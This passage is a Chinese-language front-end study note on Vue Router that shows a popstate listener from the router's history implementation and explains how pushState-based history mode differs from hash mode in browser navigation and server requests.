constructor (router: Router, base: ?string) {

  window.addEventListener('popstate', e => {
    const current = this.current
    this.transitionTo(getLocation(this.base), route => {
      if (expectScroll) {
        handleScroll(router, route, current, true)
      }
    })
  })
}

```

<!-- history的优势 -->

1. pushState 设置的新 URL 可以是与当前 URL 同源的任意 URL；而 hash 只可修改#后面的部分，故只可设置与当前同文档的 URL
2. pushState 设置的新 URL 可以与当前 URL 一模一样，这样也会把记录添加到栈中；而 hash 设置的新值必须与原来不一样才会触发记录添加到栈中
3. pushState 通过 stateObject 可以添加任意类型的数据到记录中；而 hash 只可添加短字符串
4. pushState 可额外设置 title 属性供后续使用

####

在地址栏中输入地址和自身跳转是不同的。
比如在 history 模式下，在地址栏中输入地址回车后就会向服务端发送请求，这个是无法阻止的。并不是 vue 检测到了这个行为，然后阻止了发送请求。而是请求发送完成，服务端返回了 index.html 然后 vue 根据当前的浏览器的 url 匹配出了当前路由，然后进行路由渲染。

但是如果是利用代码的跳转，即使用了 history.pushState 方法，此方法只改变 url 而不发送请求。并且这之后点击了浏览器的前进或后退按钮，因为是使用的 pushState 方法保存入历史栈中，所以同样不会发送请求，但此时可被 popstate 事件监听到。vue 利用此监听事件做后续处理

而在hash模式下，不管是代码层面的跳转还是url上输入地址，都是不会重新想服务器发送请求的。 而此时完全是凭借hashChange事件监听
